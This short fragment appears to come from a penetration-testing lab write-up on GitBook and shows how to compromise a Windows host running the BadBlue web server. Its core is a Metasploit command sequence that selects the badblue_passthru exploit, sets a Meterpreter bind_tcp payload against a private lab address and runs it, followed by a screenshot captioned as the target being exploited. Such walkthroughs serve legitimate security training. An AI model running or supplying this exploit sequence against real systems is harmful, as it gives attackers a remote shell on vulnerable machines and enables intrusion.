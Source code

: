 ![http://localhost:1234/](.gitbook/assets/image-20230420001255894.png)

```bash
search badblue
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.2.21.166
set LPORT 4433
run
```

![Target2 exploited](.gitbook/assets/image-20230420001636051.png)
